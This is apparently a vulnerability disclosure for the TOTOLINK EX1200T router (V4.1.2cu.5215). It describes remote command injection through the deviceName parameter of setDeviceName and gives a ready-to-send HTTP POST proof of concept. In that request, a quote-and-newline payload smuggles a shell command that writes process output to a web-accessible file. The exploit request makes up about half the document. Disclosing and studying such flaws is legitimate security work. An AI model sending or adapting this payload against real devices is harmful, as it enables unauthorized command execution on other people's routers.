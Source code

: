 # TOTOLINK EX1200T RCE

## Remote Command Injection Vulnerability Description

PRODUCT: TOTOLINK EX1200T V4.1.2cu.5215 (latest version)

There is a remote command injection in the function `setDeviceName` of the file `global.so` , we can control the`deviceName` to attack.

![image-20211021181327210](C:\Users\Lenovo\AppData\Roaming\Typora\typora-user-images\image-20211021181327210.png)

## PoC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,zh-TW;q=0.8
If-Modified-Since: Thu, 01 Jan 1970 00:00:03 GMT
Connection: close
Content-Length: 68

{"topicurl":"setting/setDeviceName",
"deviceMac":"1",
"deviceName":"1'\nps>/web_cste/test1\n'"}
```

![image-20211019162919271](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211019162919271.png)

